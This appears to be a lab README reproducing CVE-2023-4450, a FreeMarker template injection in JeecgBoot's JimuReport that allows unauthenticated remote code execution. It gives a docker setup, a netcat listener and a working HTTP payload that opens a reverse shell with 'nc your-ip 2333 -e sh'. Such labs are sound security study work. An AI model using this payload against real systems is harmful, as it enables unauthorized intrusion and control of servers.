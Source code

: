 # JeecgBoot SSTI (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JeecgBoot is an open source low-code development platform, Jimureport is one of the low code
Report component.

An issue was discovered in Jimureport lower than 1.6. An unauthorized api called `/jmreport/queryFieldBySql` led to
remote arbitrary code execution due to parsing SQL statements using Freemarker.

References:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## Vulnerable Environment

Execute following command to start a JeecgBoot site 3.5.3:

```
docker compose up -d
```

You can access the JimuReport website through `http://your-ip:8080/jeecg-boot/jmreport/list` after the server is
started.

## Exploit

### Reversed Shell

open a listener for reversed shell

```bash
 nc -lvvp 2333
```

send freemarker payload with sql parameter through `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql`

```http request
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 2333 -e sh\")}",
    "type": "0"
}
```

![](1.png)
